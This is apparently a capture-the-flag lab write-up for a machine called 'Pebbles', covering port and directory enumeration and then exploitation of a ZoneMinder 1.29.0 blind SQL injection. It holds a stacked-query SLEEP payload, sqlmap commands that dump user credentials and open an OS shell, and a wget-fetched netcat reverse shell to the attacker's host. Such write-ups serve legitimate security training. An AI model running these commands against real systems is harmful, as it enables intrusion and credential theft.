# Pebbles

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.85.52 -t full`

`nmapAutomator.sh -H 192.168.85.52 -t vulns`



### HTTP

Port 80



`gobuster dir -u http://192.168.85.52 -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50`



Using a larger wordlist:

`gobuster dir -u http://192.168.85.52 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -k -x .txt,.php --threads 100`



We have a ZoneMinder console \(v1.29.0\).



Port 8080 contains another HTTP service.

`gobuster dir -u http://192.168.85.52:8080 -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50`



There is a `hello.php`.



## Exploitation

From the ZoneMinder version \(v1.29.0\) above, we find that it is vulnerable to SQL injection.

[https://www.exploit-db.com/exploits/41239](https://www.exploit-db.com/exploits/41239)

It appears that the `limit` parameter is vulnerable to stacked queries. Using the following POST payload:

`view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=5`

We can make the server sleep for 5 seconds.



This is a blind SQL injection \(True = sleep, False = no sleep\).

We can automate the blind SQL injection using `sqlmap`.

`sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm --tables --threads 5`



`sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm -T Users -C Username,Password --dump --threads 5`



We can achieve RCE using the `--os-shell` option.

`sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell`



```text
wget "http://192.168.49.133/nc" -O /tmp/nc
chmod +x /tmp/nc
/tmp/nc -e /bin/bash 192.168.49.133 3305
```

**Two things were important here: the port 3305, and the location of the nc binary.**

On our listening machine, we get a root shell.



Upgrade to an interactive shell: `python -c 'import pty;pty.spawn("/bin/bash")'`

Proof:


